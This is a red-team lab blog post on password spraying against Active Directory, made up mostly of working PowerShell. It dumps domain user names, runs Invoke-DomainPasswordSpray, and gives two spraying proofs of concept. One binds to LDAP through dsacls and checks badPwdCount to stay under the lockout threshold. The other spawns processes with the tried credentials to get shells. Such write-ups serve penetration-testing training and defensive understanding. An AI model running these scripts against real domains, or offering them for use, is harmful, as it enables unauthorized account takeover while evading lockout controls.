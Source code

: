 ```yaml
---
layout: post
title: "2024-06-18-active directory password spraying"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /active-directory-password-spraying/
---
```


# Active Directory Password Spraying

This lab explores ways of password spraying against Active Directory accounts.

## Invoke-DomainSpray

{% code title="attacker@victim" %}
```csharp
Get-ADUser -Properties name -Filter * | Select-Object -ExpandProperty name |  Out-File users.txt
type users.txt
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-20 21-29-13.png>)

{% code title="attacker@victim" %}
```csharp
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-20 21-32-37.png>)

## Spraying using dsacls

While I was poking around with dsacls for enumerating AD object permissions

{% content-ref url="using-dsacls-to-check-ad-object-permissions.md" %}
[using-dsacls-to-check-ad-object-permissions.md](using-dsacls-to-check-ad-object-permissions.md)
{% endcontent-ref %}

I noticed that one could attempt to bind to LDAP using specific AD credentials, so a dirty AD password spraying POC came about:

{% code title="attacker@victim" %}
```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

# (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-20 00-10-10.png>)

## Spraying with Start-Process

Similarly to dsacls, it's possible to spray passwords with `Start-Process` cmdlet and the help of PowerView's cmdlets:

{% code title="spray-ldap.ps1" %}
```csharp
# will spray only users that currently have 0 bad password attempts
# dependency - powerview

function Get-BadPasswordCount {
    param(
        $username = "username",
        $domain = "offense.local"
    )
    $pdc = (get-netdomain -domain $domain).PdcRoleOwner
    $badPwdCount = (Get-NetUser $username -Domain $domain -DomainController $pdc.name).badpwdcount
    return $badPwdCount
}

$users = Get-netuser -properties samaccountname | Select-Object -ExpandProperty samaccountname
$domain = "offense.local"
$password = "123456"

Write-Host $users.Count users supplied; $users | % {
    $badPasswordCount = Get-BadPasswordCount -username $_ -Domain $domain
    if ($badPasswordCount -lt 0) {
        Write-Host Spraying : -NoNewline; Write-host -ForegroundColor Green " $_"
        $credentials = New-Object System.Management.Automation.PSCredential -ArgumentList @("$domain\$_",(ConvertTo-SecureString -String $password -AsPlainText -Force))
        Start-Process cmd -Credential ($credentials)
    } else {
        Write-Host "Ignoring $_ with $badPasswordCount badPwdCount" -ForegroundColor Red
    }
}
```
{% endcode %}

Enjoy the shells:

![](../../.gitbook/assets/spraying.gif)

## References

{% embed url="https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon" %}



@spotheplanet
